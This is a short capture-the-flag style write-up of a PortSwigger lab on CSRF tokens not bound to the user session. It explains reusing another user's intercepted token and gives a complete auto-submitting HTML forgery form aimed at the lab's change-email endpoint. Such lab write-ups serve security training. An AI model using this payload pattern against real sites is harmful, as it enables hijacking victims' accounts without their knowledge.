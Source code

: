 # Lab: CSRF where token is not tied to user session

**Link**: https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session

**Solution**:

The idea he is not validate the csrf token with user session (current logged in)

so copy the csrf token of another user and replace it with your victim html payload like the following
- Intercept the request from another user
- Copy the csrf token
- Drop the request (don’t complete it) because its unique
- Past it in any other payload
- It works 😃
  
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0af7006003dc676ac2bc4823001e00e8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="mohamed&#46;abdelrahman9996&#64;yahoo&#46;comaa" />
      <input type="hidden" name="csrf" value="f2qEt8YKPB2YMdoDK7LuRKhEXNjE7hXu" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

<p align="center" width="100%">
  <img src="image1.png" width="500" hight="500"/>
</p>
